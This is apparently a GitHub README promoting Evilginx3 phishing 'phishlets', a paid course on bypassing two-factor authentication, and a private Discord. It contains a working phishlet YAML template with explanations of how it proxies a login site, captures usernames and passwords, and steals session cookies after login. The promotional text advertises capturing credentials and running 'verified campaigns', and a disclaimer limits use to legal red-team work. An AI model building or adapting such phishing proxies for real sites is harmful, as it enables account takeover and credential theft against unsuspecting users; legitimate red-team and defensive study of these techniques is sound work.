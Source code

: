   ## Updated Evilginx3 Phishlets
I've dedicated substantial time and effort to create and update new phishlets for Evilginx3. In this repository, you'll find many custom Evilginx phishlets, finely crafted and updated to suit real-world applications

**Got any requests or questions?** Feel free to message me @ www.SimplerHacking.com


## Join the private Evilginx Discord Server!
![Discord Members](https://img.shields.io/badge/Discord%20Members-1309-blue)

[![Discord](https://img.shields.io/badge/Discord-7289DA?style=for-the-badge&logo=discord&logoColor=white)](https://discord.gg/3pdawMkP)

# Our New Evilginx3 Phishing Masterclass Has Been Released!
## Download the course: www.simplerhacking.com/courses/evilginx-course
Learn to bypass 2FA with the latest version of Evilginx3, send verified campaigns, capture credentials, record & analyze campaign results.

### Course Content Preview:

[![Evilcover2](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/d05fe6c1-9fdd-454c-8a96-689a880a8ddf)](https://www.simplerhacking.com/courses/evilginx-course)

![Screenshot (2501)](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/1ae29b71-6d8b-4f28-9a12-edde24ba3060)

![Screenshot (2500)](https://github.com/simplerhacking/Evilginx3-Phishlets/assets/141525149/93e2aa6f-4387-41b7-a612-0ac8d0152942)


https://github.com/simplerhacking/Evilginx3-Tutorial/assets/141525149/fa7dcbf0-13cb-4cfc-b7a8-f944d824b0c2

https://github.com/simplerhacking/Evilginx-Course/assets/141525149/3bf788e5-d7df-48fb-9820-00520185cfd7



![SMTP-or-API-Email-Sending Evilginx3 ad](https://github.com/simplerhacking/Evilginx3-Tutorial/assets/141525149/6b5e4061-978f-488a-aa0e-53cb505f1022)


- **Affordable Pricing:** I've made the price of the course afforable for anyone interesting in learning about Evilginx & MITM Attacks.
- **Great for all skill levels:** The course is designed with clear explanations that make even complex topics easy to understand.
- **Practical Application:** Through hands-on labs & real customizeable templates, We help you apply what you learn in real-world scenarios.
- **From Basics to Advanced:** This course offers a smooth learning curve, foundation before diving into advanced features of Evilginx3.
- **Custom Phishlets files & Resources:** Personalized phishlet files, Q&A support & resources bridge the gap between theory & practice


## Need Custom Phishlets? 
Check our constantly updating our free Evilginx3 Phishlet Repository for Red Teams

You can find it here: https://github.com/simplerhacking/Evilginx3-Phishlets

## Questions?
Send us an email to info@simplerhacking.com or message directly on our website www.simplerhacking.com

## Disclaimer
The tools here are intended solely for legal and ethical use by cybersecurity professionals in controlled environments. 
Any illegal or malicious use is strictly prohibited.
I disclaim all responsibility for any harm, loss, or damage that may arise from improper use. 

##

## Simpler Hacking Evilginx Phishlet Template (Use this template to make your own!)

```yaml
name: 'Your First Phishlet'
author: 'Simpler Hacking'
min_ver: '3.2.0'

proxy_hosts:
  - { phish_sub: 'www', orig_sub: 'www', domain: '{domain}', session: true, is_landing: true }

sub_filters: 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['text/html', 'application/javascript', 'text/css', 'application/json', 'image/x-icon', 'text/plain', 'application/xml', 'image/*', 'font/*']} 
  - { hostname: '{hostname}', sub: 'www', domain: '{domain}', search: '{domain}', replace: '{hostname}', mimes: ['application/x-www-form-urlencoded']}

auth_tokens:
  - domain: '{domain}'
    keys: ['session']

creds:
  - key: 'username'
    search: ['(.*)']
    type: 'post'
  - key: 'password'
    search: ['(.*)']
    type: 'post'

auth_urls:
  - url_regex: 'https://{hostname}/login'
    valid_statuses: [200]

login:
  username: user
  password: pass
  url: https://www.{domain}/login

# This is just a demo example of a phishlet for 3.2.0

# You can find phishlets here: https://github.com/simplerhacking/Evilginx3-Phishlets

```
**Explanation of Phishlet Parameters:**

- `name:` Identifies the name of the phishlet.
- `author:` Specifies the phishlet author.
- `min_ver:` Specifies the minimum Evilginx version that is compatible with your phishlet.
- `proxy_hosts:` Indicates the domain and subdomains to proxy. The `phish_sub` is the subdomain that the phishing page will imitate.
- `sub_filters:` Allows the phishlet to replace instances of the actual domain name with the phishing domain, which is critical for the phishing page to function correctly.
- `auth_tokens:` Identifies the cookies that should be captured from the victim's browser to gain access to the victim's session.
- `creds:` This field determines the credentials that the phishlet is engineered to steal. The `key` is the name of the credential (like username or password) and `search` is a regular expression that the program will use to identify and extract these details from the user's input.
- `auth_urls:` Defines the URLs that Evilginx will treat as the authenticated URLs. After the victim logs in, Evilginx will look out for a redirect to one of these URLs, at which point it will steal the listed `auth_tokens`.
- `login:` Here you specify the identifiers of the username and password fields in the login form on the original webpage. The `url` is the link of the page where the victim enters their credentials.
- `force_post:` If set to true, it forces the alteration of HTTP method from GET to POST.
- `is_landing:` If set to true, it means that the page is a landing page for the phishing attack.
- `js_inject:` This is where you can write some JavaScript to be injected in the webpage. It's typically used to enhance the phishing attack and ensure a smoother victim experience.
- `domain:` This is a template variable used to replace target hostname used in phishlet configuration.

## Enroll in our free training lessons & webinars: www.simplerhacking.com/courses/evilginx-webinar

## Follow our academic blog for more insights: https://medium.com/@simplerhacking

[![Medium](https://github-readme-medium-recent-article.vercel.app/medium/@simplerhacking)](https://medium.com/@simplerhacking)



## Disclaimer
The tools here are intended solely for legal and ethical use by cybersecurity professionals in controlled environments. 
Any illegal or malicious use is strictly prohibited.
I disclaim all responsibility for any harm, loss, or damage that may arise from improper use.
